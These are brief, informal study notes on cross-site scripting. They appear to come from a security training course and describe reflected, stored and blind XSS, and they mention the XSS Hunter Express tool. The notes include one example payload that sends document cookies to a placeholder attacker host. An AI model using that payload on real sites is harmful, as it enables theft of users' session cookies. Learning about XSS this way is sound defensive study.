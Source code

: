 xss allow to run maliscious JS code inside a web page .

the xss have a payload : the js code to run inside the client like fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));

the xss payload can be stored in many place :

# reflected XSS : 
the code is in parameter or in url. 

# stored xss :

the code is stored in a database like comment not validated.

# blind xss:

allow to test xss in a blackbox. we can use an http request to check what happened.

XSS Hunter Express is a good tools to do it.

